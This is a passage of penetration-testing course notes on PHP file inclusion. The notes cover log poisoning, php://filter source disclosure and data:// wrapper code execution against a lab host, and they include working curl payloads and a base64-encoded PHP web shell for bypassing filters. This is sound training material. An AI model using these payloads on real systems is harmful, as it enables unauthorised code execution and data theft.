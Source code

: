 > **Note**:
> When we use Log Poisoning on Windows, we should understand that the log files are located in application-specific paths. For example, on a target running XAMPP, the Apache logs can be found in **C:\xampp\apache\logs\**.

### PHP Wrappers
PHP offers a variety of protocol wrappers to enhance the language's capabilities. For example, PHP wrappers can be used to represent and access local or remote filesystems. We can use these wrappers to bypass filters or obtain code execution via File Inclusion vulnerabilities in PHP web applications. While we'll only examine the [**php://filter**](https://www.php.net/manual/en/wrappers.php.php) and [**data://**](https://www.php.net/manual/en/wrappers.data.php) wrappers, [many are available](https://www.php.net/manual/en/wrappers.php).

- We can use the **php://filter** wrapper to display the contents of files either with or without encodings like *ROT13* or *Base64*. In the previous section, we covered using LFI to include the contents of files. Using **php://filter**, we can also display the contents of executable files such as **.php**, rather than executing them. This allows us to review PHP files for sensitive information and analyze the web application's logic.

```sh
kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=admin.php
# We can assume that something is missing. PHP code will be executed server side and, as such, is not shown.
kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
# Same result as before. The PHP code is included and executed via the LFI vulnerability.
kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
# Encoding the output with base64 by adding convert.base64-encode, this converts the specified resource to a base64 string. Which we can decode on our terminal and see if there's something hidden.
```

- While the **php://filter** wrapper can be used to include the contents of a file, we can use the **data://** wrapper to achieve code execution. This wrapper is used to embed data elements as plaintext or base64-encoded data in the running web application's code. This offers an alternative method when we cannot poison a local file with PHP code.
  - To use the wrapper, we'll add **data://** followed by the data type and content. In our first example, we will try to embed a small URL-encoded PHP snippet into the web application's code. We can use the same PHP snippet as previously with ls the command.
      ```sh
      kali@kali:~$ curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
      ...
      <a href="index.php?page=admin.php"><p style="text-align:center">Admin</p></a>
      admin.php
      bavarian.php
      css
      ...
      ```
  - When web application firewalls or other security mechanisms are in place, they may filter strings like "system" or other PHP code elements. In such a scenario, we can try to use the data:// wrapper with base64-encoded data. We'll first encode the PHP snippet into base64, then use curl to embed and execute it via the data:// wrapper.
      ```
      kali@kali:~$ echo -n '<?php echo system($_GET["cmd"]);?>' | base64 PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==
